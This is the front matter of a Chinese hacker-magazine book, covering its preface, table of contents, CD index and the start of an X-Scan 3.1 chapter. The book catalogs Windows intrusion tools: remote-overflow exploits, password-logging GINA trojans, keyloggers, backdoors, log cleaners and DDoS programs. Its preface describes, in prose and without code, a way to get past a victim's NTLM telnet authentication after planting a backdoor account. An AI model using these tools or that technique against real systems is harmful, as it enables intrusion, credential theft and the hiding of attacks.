# 黑客兵器谱Ⅱ

121个 hack 小工具秘籍＋X档案威力推荐＋工具巡查字典

￥22.00

Microsoft Excelline / crack by x0r

sun.exe irixtelnet.exe 0x333samba.exe xservu.exe

nc.exe sqlexec.exe mport.exe AProMan.exe gina.exe

NTSHELLGINA.DLL cns0407d03.exe

黑客X档案编辑部制作

- 作者：
- 杨荣柱（Sagi）
- 黎信（墨莲花）
- 汪利辉（iceyes）
- 梁伟（Python）

## 做一本想被看热闹着看的杂志

不让生活更改我们的个性

平民化 自由度 随意性 突破极限

拥有国内人气指数最高的黑客类媒体 www.hackerxfiles.net

## 黑客X档案 II

# 黑客兵器谱 II

出版：吉林科学技术出版社

出品人：孙雅莉

主编：黎华

编辑部主任：孙志强

编辑部：Zero 黑客一土豆 某某虫 越狱 Sagi

特约编辑：Python 射手 雪碧蛇 ICEYES

光盘设计：笼谨成

美编：何传授 Bifrost

排版：何传授

E-mail：hackerxfiles@263.net

邮购查询 E-mail：chaxunx@263.net

读者服务热线：（010）88560080

发行电话：（010）88561472

发行联系人：赵琦 小郭

邮编：100037

定价：22.00元（附光盘＋手册）

## 前言

倘若上帝愿意给你一个可以登上天堂的天梯，你是否仍然执意地要自己去花N年的时间去另外造一个呢？有许多网络高手，经常嘲笑那些只会使用工具的网络新手们，或许他们也忘记了，他们刚开始接触网络安全时，也是这么过来的，而且他们即使是现在，也仍然在使用着别人的工具；只是工具不同罢了。我想不出使用工具有什么不好，更想不出拒绝使用这些工具的任何理由。让我们站在巨人的肩膀上吧，我们会看得更远、更高。

## 本书面向的读者

如果你对于网络安全感兴趣，而又是一个刚刚接触这方面知识的新手的话，我们建议你详细地阅读本书，学习各种网络安全工具的应用；而如果你自视已经是这方面的高手的话，那么，请略过此书。

## 本书的章节分类

本书以介绍网络安全工具的使用为主，全书共分为七个章节：第一章，主要介绍了网络安全检测（扫描）工具的使用；第二章，主要介绍了两款常用的远程控制程序的使用；第三章，主要介绍了远程溢出攻击程序的使用；第四章，介绍了黑客在入侵过程中常用的一些辅助工具；第五章，主要介绍了一些常用的后门工具的使用；第六章，介绍了几款嗅探（sniffer）工具的使用；第七章，以介绍其他的综合工具为主。

本书中所涉及的所有工具，都是基于 Microsoft Windows 系统平台的，我们强烈建议你使用 Windows 2000/XP/2003 系统，因为其中的一些工具程序是无法在 Windows 9x/ME 系统下运行的。限于某些原因，对于一些商业程序或注册程序的破解类工具以及特洛伊木马程序的使用我们没有做介绍，就连远程控制类的工具，我们也只是简单地介绍了最常用的两款。另外，就是针对 Unix/Linux 系统的安全工具，我们也没有涉及，只是在第三章，也就是远程溢出攻击程序的使用的一章中，简单地介绍了几个。

在实际的应用中，我们希望读者可以理论结合实践，灵活地运用各种工具，再结合操作系统本身的一些特性，而并非是单纯地依靠这些工具程序。举个简单的例子，当我们利用对方系统上存在的安全漏洞入侵了对方的系统后，成功地在对方的系统中添加了一个具有管理员权限的后门帐号，也开启了对方的远程登录（telnet）服务；那么此时我们通常的做法是使用 nlm.exe 或是 opentelnet 来清除对方的 NTLM 验证，但实际上我们不使用任何的工具也可以绕过对方的 NTLM 验证来成功地登录，我们只需要在自己的系统上添加一个和对方一模一样的帐号，然后以该帐号登录自己的系统，或是以该帐号身份来运行 cmd，那么，在该 cmd 窗口下使用 telnet 客户端程序就可以直接登录对方的系统，而绕过对方系统的 NTLM 验证了。

## 光盘说明

本书中所有涉及的工具都已收录在了第一张光盘中。另外，在第一张光盘中，我们还整合了许多其他经典的工具程序，可以说包括了网络安全的方方面面，包括 Windows 2000 终端服务（3389）的远程溢出工具；Linux telnet 的远程溢出工具、Linux gopher 2.3.1 的远程溢出工具、BSD telnet 的远程溢出工具、AIX infod 的远程溢出工具、SunOS sadmind 的远程溢出工具、基于 Windows 系统平台的 Apache 1.3.* 的远程溢出工具、ws-ftp 的远程溢出工具、wu-ftp 的远程溢出工具、各种网页木马、黑洞2004、灰鸽子、广外幽灵、Radmin、Lecher、Recub、URC、zxshell 等远程控制（木马）程序等。在第二张光盘中我们主要收录了一些安全方面的动画教程，或许这种有声有色的动画，也会让你在学习的同时体会到许多的乐趣吧。

## 注意事项

本书所介绍的工具程序，有许多都带有恶意的攻击性，可能会给你的测试目标带来很大的危害，因此我们希望你能够慎重地使用这些工具，由此而带来的所有后果，均由测试者本人承担！

## 感谢

在这儿特别感谢动画教程的提供者——梓狗（http://www.77169.com），也感谢所有支持过我们、帮助过我们的朋友！

## 一、扫描

【致命前奏】

- 1.1 x-scan 3.1 .................... 12

这也是 x-scan 的最新版本，功能比以前的版本提高了许多，而且其 NASL 插件，我感觉更是类似于 Unix/Linux 系统下的 Nessus 扫描程序。

- 1.2 流光 5 .................... 15

国内最优秀的综合网络安全检测（扫描）工具，集安全检测、扫描、攻击于一身，甚至在流光的目录下还收集了几个针对 Unix/Linux 系统的常用的远程溢出程序。

- 1.3 x-way 2.6 .................... 21

国内另一款不错的综合网络安全扫描工具，也是集成了许多实用的小工具。

- 1.4 nmap .................... 25

Unix/Linux 下强大的端口检测程序，这个是 Windows 版本。

- 1.5 SuperScan cn3 .................... 30

基于 Windows 系统平台的使用最广泛的端口扫描程序，速度快，扫描的端口可自己根据需要随意地添加、选择。

- 1.6 ASC.exe .................... 31

这是国内公布的一款用于扫描 ASP 文件是否存在注入点，也就是是否存在脚本注入漏洞的工具。

- 1.7 Sleuth 1.4 .................... 32

非常不错的一款网页文件检索工具，可检查的文件类型包括 php、pl、asp、htm、cfm、jsp、cgi、dll、txt。

## 二、远程控制

【秘密潜入】

- 2.1 vnc .................... 35

大名鼎鼎的远程控制软件，最早使用于远程控制 Unix/Linux 系统，不过，也有 Windows 版本。

- 2.2 DameWare .................... 37

基于 Windows 系统平台的一款常用的远程控制软件。

## 三、远程溢出

【刺穿你的防线】

- 3.1 sql2.exe .................... 40

ms-sql 的远程溢出工具。

- 3.2 thcsql.exe .................... 41

ms-sql 的远程溢出工具。

- 3.3 iisrpc .................... 43

Unicode 漏洞的利用工具。

- 3.4 iis5hack 及 idahack .................... 44

.printer 漏洞远程溢出工具。

- 3.5 snake IIS .................... 45

Snake ida、idq 的远程溢出工具。

- 3.6 aspcode.exe .................... 48

ASP 漏洞远程溢出工具。

- 3.7 webdavx3 .................... 49

webdav 漏洞远程溢出工具（isno）。

- 3.8 webdav.exe .................... 49

webdav 漏洞溢出工具（yuange）。

- 3.9 rpc_locator.exe 及 rpc.exe ...... 51

RPC Locator 漏洞远程溢出工具。

- 3.10 media.exe .................... 55

Media Server 远程溢出工具。

- 3.11 winrpcdcom.exe .................... 56

Windows rpcdcom 的远程溢出工具。

- 3.12 w2krpcdcom.exe .................. 58

Windows rpcdcom 远程溢出工具（反向连接）。

- 3.13 rpclongname .................. 59

Windows rpcdcom 长文件名的远程溢出程序。

- 3.14 realex.exe .................. 60

Real Server 的远程溢出工具，支持 Linux 系统及 Windows 系统。

- 3.15 msghack.exe .................. 62

Windows Messenger 漏洞的远程溢出程序（MS03-043）。

- 3.16 ms03049.exe .................. 65

Windows Workstation 漏洞的远程溢出程序（MS03-049）。

- 3.17 winfp30reg2.exe .................. 66

Windows FrontPage fp30reg.dll 的远程溢出程序（MS03-051）。

- 3.18 ms04011lsass.exe .................. 68

Windows Lsasrv.dll RPC 远程溢出程序（MS04-011）。

- 3.19 winsslV02AutoHacker ............ 70

Windows SSL 漏洞的自动攻击程序（MS04-011）。

- 3.20 dameware.exe .................. 72

DameWare 的远程溢出工具。

- 3.21 serv345.exe .................. 74

Windows Serv-U FTP 的远程溢出工具。

- 3.22 sun.exe .................. 75

SunOS telnet 远程溢出程序。

- 3.23 irixtelnet.exe .................. 77

SGI IRIX telnet 远程溢出程序。

- 3.24 0x333samba.exe .................. 78

Linux SAMBA 服务的远程溢出程序。

- 3.25 xservu.exe .................. 79

Windows Serv-U FTP 5.0.0.4 的远程溢出工具。

## 四、入侵辅助

【无声配角】

- 4.1 NC（NetCat） .................. 82

全能的“瑞士军刀”。

- 4.2 Sqlnj.exe .................. 84

脚本注入自动攻击程序。

- 4.3 mport .................. 85

列举出打开端口的文件的一个工具。

- 4.4 AProMan.exe .................. 86

查看系统进程的一个程序。

- 4.5 gina.exe .................. 87

记录系统登录密码。

- 4.6 NTSHELLGINA.DLL ............ 88

一个在图形界面下记录登录密码的工具。

- 4.7 klogger.exe .................. 89

Windows 系统下的一个键盘记录工具。

- 4.8 sqlexec.exe .................. 90

Windows ms-sql 数据库的连接程序。

- 4.9 tftpd32.exe .................. 91

建立一个 tftp 服务器的工具。

- 4.10 whoami .................. 92

查看当前用户名的一个程序。

- 4.11 elsave .................. 96

- 4.12 cleaniislog ................. 97

小榕推出的一个用于本地执行清除日志的工具。

- 4.13 ERunasx ..................... 98

DEBUG 漏洞的本地溢出（权限提升）工具。

- 4.14 winwmiex .................... 99

wmi server 的本地溢出（权限提升）工具。

- 4.15 xdebug ..................... 101

Windows kernel 本地溢出（权限提升）工具。

- 4.16 ptsec ...................... 103

Windows 进程的本地溢出（权限提升）工具。

- 4.17 local04011ex ............... 104

MS04-011 漏洞的本地溢出工具。

- 4.18 T-SysCmd-1.0 ............... 106

win2000/XP 下提升权限的工具，也可以当作一个后门程序来使用。

## 五、后门

【寂寞的潜伏】

- 5.1 BITS ........................ 109

小榕推出的一款功能强大的 DLL 后门程序。

- 5.2 PortlessNew ................ 111

同小榕的 BITS 类似的一个强大的后门程序。

- 5.3 WinShell ................... 114

一个小巧的后门程序。

- 5.4 opentelnet ................. 115

远程开启 Windows telnet 服务的工具。

- 5.5 Remoxec .................... 116

小榕推出的一个用于远程清除日志文件的工具。

- 5.6 GUIControlTelnet ............ 118

图形界面下的远程开启、关闭 telnet 服务的工具。

- 5.7 dtx3389.bat ................. 119

远程开启目标主机的终端服务（3389）。

- 5.8 cmdasp.asp .................. 120

最早的 ASP 后门程序。

- 5.9 ca.exe ...................... 121

小榕发布的一个用于克隆系统帐号的工具。

- 5.10 ntlm.exe ................... 124

清除 NTLM 认证的一个工具。

- 5.11 nodoom ..................... 125

mydoom 病毒后门的利用程序。

- 5.12 sasserftp ................. 126

sasser 振荡波病毒的利用程序。

- 5.13 superdoor3.0 .............. 128

Windows 系统下一个隐藏帐号的工具。

- 5.14 hxdef100 ................... 129

优秀的后门程序黑罩守卫者。

- 5.15 icmpdoor ................... 132

Windows NT/2000/XP 下的一个很好的 ICMP 后门。

- 5.16 icmd ....................... 134

Windows 下一个很小巧的后门工具。

## 六、嗅探

【你的秘密我知道】

- 6.1 T-Sniffer .................. 137

- 6.2 winsniff ............ 138

是一个基于命令行方式下的嗅探工具。

- 6.3 xsniff ............ 139

是安全焦点推出的 x-tools 系列中的一个 sniff（嗅探）工具。

- 6.4 xport ............ 144

这是安全焦点推出的 x-tools 系列中的端口扫描工具。

- 6.5 xftp ............ 146

这是安全焦点推出的 x-tools 系列中的一个 ftp 工具，可以实现文件的上传与下载。

## 七、其他工具

- 7.1 FPipe ............ 149

一个著名的端口重定向工具。

- 7.2 P2P ............ 150

端口重定向工具。

- 7.3 superagent ............ 151

协议转发工具。

- 7.4 PortMap ............ 153

端口映射工具。

- 7.5 trtool.exe ............ 155

红客联盟发布的一款协议转发工具。

- 7.6 July ............ 156

查看进程及进程中模块的一个工具。

- 7.7 antiyports ............ 157

查看进程及使用的端口的一个工具。

- 7.8 newletmein ............ 158

一个用于获取系统用户列表信息的工具。

- 7.9 portqryv2 ............ 160

微软发布的一款用于查看本地网络连接及远程主机开放端口信息的一个程序。

- 7.10 Microsoft Baseline Security Analyzer ........ 161

微软发布的一款系统安全检测工具。

- 7.11 PEiD ............ 163

一个非常著名的专门用于检测程序所加的壳的种类的工具。

- 7.12 pe-scan ............ 164

一款用于检测壳的种类以及脱壳的程序，可以检测出壳的入口点、偏移量及 PEP。

- 7.13 ASProtect ............ 166

一个非常不错的加壳程序。

- 7.14 unpacker upx ............ 167

专门用于脱 UPX 壳的程序。

- 7.15 PwDump3 ............ 168

Windows 系统平台下一个著名的用于本地或远程获取系统密码散列的工具。

- 7.16 LC4 ............ 169

Windows 系统平台下最著名的一款用于破解系统账号密码的工具。

- 7.17 bladese 1.25 ............ 171

小榕的乱刀，专门用于破解 Unix/Linux 系统的账号口令。

- 7.18 John ............ 175

Unix/Linux 下最著名的系统帐号破解器工具了，这个是 Windows 系统下的版本。

## 目录

- **7.19 BrutusAET2** ................. 177  
  远程猜解口令的工具

- **7.20 tscrack-beta9** ................. 179  
  远程猜解 Windows 终端服务（3389）口令的一个工具

- **7.21 Base64** ................. 180  
  Base64 密码转换工具

- **7.22 jmpesp** ................. 180  
  sunx 编写的一个用于寻找 JMP ESP、JMP EBX 地址的工具

- **7.23 sac** ................. 182  
  红客联盟发布的一个用于寻找 JMP ESP、JMP EBX 地址的工具

- **7.24 提取 shellcode 的三个程序** ...... 183  
  提取 shellcode 的三个程序：bindshellcode.exe、chackshellcode.exe、downshellcode.exe

- **7.25 PuTTY** ................. 184  
  一个终端连接程序，支持 Telnet、SSH、rlogin

- **7.26 pstools** ................. 186  
  pstools 是一个集合了十二个实用小程序的工具集合，别小看了这十二个小工具，可是非常实用的哦
  - psexec
  - psfile
  - psgetsid
  - psinfo
  - pskill
  - pslist
  - psloggedon
  - psloglist
  - pspasswd
  - psservice
  - psshutdown
  - pssuspend

- **7.27 winnuke** ................. 190  
  针对 Windows 的 135 端口的一个拒绝服务（D.O.S）攻击程序

- **7.28 ms04007dos.exe** ............. 191  
  针对 Windows ASN.1 漏洞（MS04-007）的一个拒绝服务（D.O.S）攻击程序

- **7.29 独裁者 DDoS 攻击器** .......... 192  
  一个分布式拒绝服务（D.D.O.S）攻击程序

- **7.30 ldapbrowser253** ............. 194  
  LDAP 服务的远程连接管理程序（389 端口）

- **7.31 天网防火墙 2.51 的简单设置** .. 197  
  国内一款较常用的个人防火墙系统

- **7.32 IPF** ................. 200  
  一个基于命令行方式下的防火墙

- **7.33 winHex 的安装** ............. 202  
  Windows 下的十六进制查看工具

- **7.34 W32Dasm 的简单使用** ........ 203  
  将程序转换为 ASM 的一个程序，用于分析程序

- **7.35 ActivePerl 的安装** ......... 204  
  ActivePerl 是 Windows 系统下最常使用的 Perl 语言解释工具，安装了它，我们就可以在 Windows 系统下正常地使用那些 Perl 程序了

- **7.36 perl2exe 的简单使用** ....... 206  
  perl2exe 是常用的一款专门将 Perl 程序转换成 exe 程序的工具，这样，转换后的程序不需要 ActivePerl，也可以正常运行了

- **7.37 Cygwin 的安装** ............. 207  
  Cygwin 是一个基于 Windows 系统平台的 Unix 环境模拟工具，在 Cygwin 下我们可以编译许多基于 gcc 的源代码，以使这些程序能够运行在 Windows 平台下


### 光盘索引

## 光盘4

##### 文章所涉工具介绍

- **X-Scan** 强大的扫描工具，采用多线程方式对指定 IP 地址段（或单机）进行安全漏洞检测，支持插件功能，提供了图形界面和命令行两种操作方式。
- **X-way** 可对系统进行综合扫描，包括端口扫描、系统 CGI 漏洞扫描，包括搜集的 1000 多条 CGI 漏洞等。
- **nmap** 被开发用于允许系统管理员查看一个大的网络系统有哪些主机以及其上运行何种服务。
- **ASC** 扫描 ASP 文件是否存在注入点。
- **SleuthSetup** 网页文件检查工具，可检查的文件类型很多，如 ASP、JSP 等。
- **sql2.exe** MS-SQL 的溢出工具。
- **thcsql** 针对 MSSQL OpenDataSource 函数漏洞的攻击程序。
- **aspcode.exe** ASP 溢出工具。
- **rpc-locator-exe&rpc.exe** RPC Locator 溢出。
- **rpclongme Rpdcom** 长文件名的远程溢出。
- **realex.exe** Real Server 的远程溢出。
- **msghack.exe** Windows Messenger 服务的远程溢出。
- **ms03049** MS03-049 的远程溢出。
- **winfp30reg2** FrontPage fp30reg.dll 的远程溢出。
- **ms04011lsass** MS04-011 lsasrv.dll RPC 远程溢出。
- **sun.exe** SUNOS Telnet 远程溢出程序。
- **irixtelnet.exe** IRIX Telnet 远程溢出程序。
- **0x333samba.exe** Linux Samba 的程序。
- **ServU5.0.0.4.rar** Serv-U FTP 5.0.0.4 的远程溢出。
- **SqlInj.exe** 脚本注入自动攻击程序。
- **mport.exe** CMD 下列举打开端口的文件。
- **AProMan** 一个 2000/XP 下基于命令行的进程工具，可查看进程、端口进程关联关系。
- **gina.exe** 木马的主要作用是在系统用户登录时，将用户登录的名字、登录密码等记录到文件中去。
- **NTSHELLGINA.DLL** 图形界面下记录登录密码。
- **klogger.exe** 一个几 KB 的击键记录工具。
- **whoami.exe** 查看当前用户名称等。
- **erunasx** DEBUG 漏洞的本地溢出。
- **winwmi.exe** WMI Server 的本地溢出。
- **xdebug** Windows kernel 本地溢出。
- **local04011cx** MS04-011 的本地溢出。

- **PortlessNew** 一个使用 svchost.exe 去启动、平时不开端口、可以进行反连接的后门程序。
- **dtx3389.bat** 远程开 3389。
- **cmdasp.asp** ASP 的后门。
- **MYdoom** mydoom 后门的利用程序。
- **sasserftp** sasser 振荡波病毒利用程序。
- **GUIControlClient** 图形界面下远程开启、关闭 Telnet 服务的工具。
- **ICmd.exe** Windows 下一个很小巧的后门工具。
- **lxdc100.rar** 优秀的后门程序——黑客守门者。
- **icmpdoor.rar** WinNT/2000/XP 下的一个很好的 ICMP 后门。
- **I-Sniffer** GUI 界面的嗅探器工具，支持 TCP/UDP/ICMP 协议数据包的捕获。
- **winsniff** 有强大的处理功能，它能找出 POP3/Telnet/HTTP/FTP/IMAP/NNTP 的口令，并且它能用 Unix 信箱格式保存所有邮件消息。
- **xsniff** 简易的命令行方式嗅探器。
- **xport** 多线程方式扫描目标主机开放端口，扫描过程中根据 TCP/IP 堆栈特征准确识别操作系统类型。
- **PortMap** 能将机器的端口号 TCP/UDP 映射到其他的机器或其他 IP 地址上，支持来访 IP 的访问控制，停留在 system tray 上，非常不错的软件。
- **PEID** 现在软件越来越多地加壳了，给破解带来非常大的不便，但是这个软件可以检测出 450 种壳，非常方便。
- **pe-scan** 可以测出壳的种类很多，还可以测出入口点、偏移量及 PEP。
- **ASPProtect** 功能非常完善的加壳、加密保护工具。能够在对软件加壳的同时进行各种保护。
- **PwDump3.exe** 能从一台远程 Windows 服务器上获取密码 hash，而不管是否安装了 syskey。
- **LC5** 口令破解工具。
- **john** 大名鼎鼎的 John for Windows 版本！Unix 密码破解的老大。
- **pstools 系列** 系列工具包括：远程登录、杀死进程等 12 个小工具。
- **ldapbrowser253** LDAP 服务的远程连接管理程序（389 端口）。

##### 兵器推荐介绍

- **explore2fs** explore2fs 就像是一个 explorer，能读取你的 Linux 下 ext2fs 分区的软件。
- **JAVA** JSP/JAVA 环境架设程序集合。
- **VB 精简版** 8MB，可增短小精悍。
- **crmco-securitydriver** 将应用程序的 TCP 网络连接请求转换成 sock 请求发送出去。
- **Net Tools X** 一款简单易用而功能强大的网络工具，集合了各种常用的网络监测和扫描功能。
- **Sasser Scanner** MS04-011 lsasrv 扫描器。
- **多功能监视破解器 3.0**
- **winapache.pl** 用于 Windows 系统平台的 Apache 1.3.* 的远程溢出程序。
- **ws-ftp** WS-FTP 的远程溢出程序。
- **aix** Aix 3.4 infod 的远程溢出程序。
- **BTDWV04182004GB.exe** 下载 Torrent 文件格式的程序。
- **Dixtelnet11** 基于 BAT 文件格式的远程开启 Telnet 的程序。
- **hpjetroot.pl** HP jetroot 的远程溢出程序。
- **linuxmodgzip** Linux modgzip 的远程溢出程序。
- **linuxtelnet** Linux Telnet 远程溢出程序。
- **Media 新溢出** 针对 Win 2000 SP4 的 Media 的远程溢出程序。
- **网页木马** 包括 ASP、PHP、JSP 和 Perl 的网页木马。
- **snd-cracked** 用于破解 WinRAR 压缩文件的密码。
- **thcbindinfo.exe** 远程检测 BIND 版本信息的工具。
- **tsr3389.exe** Win XP 远程桌面连接的安装程序。
- **WebDataAdmin.msi** 微软发布的基于 ASP.NET 平台下的 MS SQL 的远程管理程序。
- **winimallex.exe** Imail 的远程溢出程序。
- **winisspam** Windows ISSPAM 远程溢出程序。


##### 脚本入侵

- 三分钟入侵 WEB 站点
- SQL 动网漏洞之直接提升管理员
- SQL 跨库查询
- SQL 注入过程
- SQL 注入基础
- SQL 注入实战
- 动网 7 upfile 漏洞
- 黄金眼配合注入
- 强制控件网页木马动画教学
- 入侵动力文章
- 入侵动网 7sp2 以下任意版本

用脚本来上传文件

##### 破解实战

- Netsuper 的解除运行次数的限制
- pc堂中宝
- 破解不让复制文章
- 破解光驱精灵
- 破解约影片
- 破解木马终结者
- 破解压缩密码 zip
- 如何拷贝光盘中隐藏目录中的文件
- 软件如何脱壳

##### 黑客基础

- IE 进行远程控制
- IIS ASP 映射分块编码远程缓冲区溢出
- Media 的远程溢出
- MS04-011 介绍
- 安装 Linux
- 破解 FTP 帐号

##### 网管路由

- 安装 DNS 支持 AD
- 登录到路由
- 简简单单玩路由
- 配置、管理 Exchange 2000 Server
- 配置 SMTP、POP3、IMAP 虚拟服务器
- CISCO IS-IS 路由系统讲座
- TCP-IP 教学

##### 编程讲座

- JAVA 编译解释
- Perl 编译程序
- SQL 的 SELECT
- VB 平方计算
- VC 渐变背景对话框

##### 精彩放送

- 4 分钟学会汉化软件
- Linux 管理系统服务
- Linux 下 MV 命令的使用方法
- 打造自己的 logo
- 最小的 ASP 后门演示动画
- 让初级黑客对您电脑扫描无用武之地
- QQ2004 版如何免费建群
- 动网 upload 漏洞

## 扫描

## 致命前奏

网络安全检测（扫描）工具，可以说是整个网络安全中最重要的了，它就像一把双刃剑，管理员使用它们，可以发现自己系统上存在的安全脆弱点；而对于入侵者来说，这些工具却同样可以让他们得到目标主机上足够的信息，甚至是各种安全漏洞。

本章节主要介绍目前国内网络安全爱好者中广泛使用的非商业版本的几款安全检测（扫描）工具。

## 第一章

## 致命前奏

## 1.1 X-Scan 3.1

X-Scan 3.1 是 X-Scan 的最新版本，修正了 3.0 及 3.02 版本中的一些小小的 BUG。在新的 3.1 版本中仍然和 3.02 版本一样使用了相对稳定的 WinPCap 2.3 版本，另外，主要是针对 Update.exe、Nessus 攻击脚本、CGI 漏洞库等进行了升级。

与早期的 X-Scan 2.3 相比，我认为新版本的改动主要有以下几个方面：一个是增加了在线升级功能，我们只需要运行 X-Scan 目录下的 Update.exe 程序，或者是点按 X-Scan 3.1 图形界面上的“在线升级”按钮，就会自动连接升级服务器（默认为安全焦点的服务器），检测是否有更新的版本。如果没有的话，会提示我们当前的就是最新的；如果有的话，就会提示我们进行升级，见图 1。

另外就是升级了 CGI 漏洞列表库，对于远程主机的操作系统使用了 TCP/IP 堆栈指纹，这也使得对于远程主机的操作系统判断得更加准确了。另外还有一些改动，我想各位在使用中就能感觉到了。

X-Scan 3.1 运行后的主界面如图 2 所示，同前期的 2.3 版本相差不大，上方的按钮依次为：“扫描模块”“扫描参数”“开始扫描”“暂停扫描”“终止扫描”“检测报告”“使用说明”“在线升级”“退出”。





整个升级过程都是自动的，不需要我们进行干预。另外一个比较大的改动应该是多了 Nessus 攻击脚本的检测，这使得 X-Scan 3.* 在某些方面越来越像 Unix/Linux 系统下大名鼎鼎的扫描程序 Nessus 了。虽然针对远程 Unix/Linux 系统的扫描而言，X-Scan 3.1 似乎还无法与 Nessus 相比，但无论如何比起前期版本已经提高了许多。

